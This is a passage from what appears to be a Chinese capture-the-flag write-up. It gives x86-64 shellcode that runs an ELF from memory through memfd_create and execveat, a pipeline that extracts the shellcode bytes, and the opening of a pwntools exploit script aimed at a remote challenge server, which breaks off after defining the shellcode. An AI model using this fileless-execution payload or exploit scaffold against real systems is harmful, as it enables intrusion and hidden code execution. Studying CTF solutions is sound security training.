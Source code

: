 ```
    push 0x00666c65     ; elf
    mov rdi, rsp        ; rdi -> 'elf'
    mov rsi, 0
    syscall
    
    ; write buffer to memfd
    mov edi, eax ; fd
    xor edx, edx
    mov dx, 0x4168      ; size
    mov esi, 0x1010101  ;/* 626348032 == 0x25555000 */
    xor esi, 0x24545101 ; source
    push 1              ; sys_write
    pop rax
    syscall

    ; execveat hello
    ; %rdi	%rsi	%rdx	%r10	%r8
    push 0
    mov rsi, rsp
    xor rdx, rdx
    xor r10, r10
    mov r8, 0x1000
    mov eax, 0x142
    syscall
```

生成shellcode
```
nasm -felf64 -o shellcode.o shellcode.asm
ld -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' '| tr -s ' '| tr '\t' ' '| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

得到：
```
\x6a\x22\x41\x5a\x6a\xff\x41\x58\x41\xb9\x00\x00\x00\x00\x6a\x09\x58\xbf\x01\x01\x01\x01\x81\xf7\x01\x51\x54\x24\x6a\x07\x5a\xbe\x01\x01\x10\x01\x81\xf6\x01\x01\x11\x01\x0f\x05\x31\xd2\x66\xba\x68\x41\xbe\x01\x01\x01\x01\x81\xf6\x01\x51\x54\x24\x31\xc0\x31\xff\x0f\x05\x48\x01\xc6\x48\x29\xc2\x75\xf2\xbe\x00\x50\x55\x25\xbf\x01\x00\x00\x00\xba\x68\x41\x00\x00\x6a\x01\x58\x0f\x05\x31\xc0\xb8\x3f\x01\x00\x00\x68\x65\x6c\x66\x00\x48\x89\xe7\xbe\x00\x00\x00\x00\x0f\x05\x89\xc7\x31\xd2\x66\xba\x68\x41\xbe\x01\x01\x01\x01\x81\xf6\x01\x51\x54\x24\x6a\x01\x58\x0f\x05\x6a\x00\x48\x89\xe6\x48\x31\xd2\x4d\x31\xd2\x41\xb8\x00\x10\x00\x00\xb8\x42\x01\x00\x00\x0f\x05
```

最后的exp.py如下：
```
from pwn import *

context.arch = 'amd64'

print('[-]: run process')
p = remote('202.38.93.111', 10106)
p.recvuntil(b'token:')
p.sendline(b'token' + b'\n')
p.recvuntil(b'Checking...\n')

shellcode = b"\x6a\x22\x41\x5a\x6a\xff\x41\x58\x41\xb9\x00\x00\x00\x00\x6a\x09\x58\xbf\x01\x01\x01\x01\x81\xf7\x01\x51\x54\x24\x6a\x07\x5a\xbe\x01\x01\x10\x01\x81\xf6\x01\x01\x11\x01\x0f\x05\x31\xd2\x66\xba\x68\x41\xbe\x01\x01\x01\x01\x81\xf6\x01\x51\x54\x24\x31\xc0\x31\xff\x0f\x05\x48\x01\xc6\x48\x29\xc2\x75\xf2\xbe\x00\x50\x55\x25\xbf\x01\x00\x00\x00\xba\x68\x41\x00\x00\x6a\x01\x58\x0f\x05\x31\xc0\xb8\x3f\x01\x00\x00\x68\x65\x6c\x66\x00\x48\x89\xe7\xbe\x00\x00\x00\x00\x0f\x05\x89\xc7\x31\xd2\x66\xba\x68\x41\xbe\x01\x01\x01\x01\x81\xf6\x01\x51\x54\x24\x6a\x01\x58\x0f\x05\x6a\x00\x48\x89\xe6\x48\x31\xd2\x4d\x31\xd2\x41\xb8\x00\x10\x00\x00\xb8\x42\x01\x00\x00\x0f\x05"

```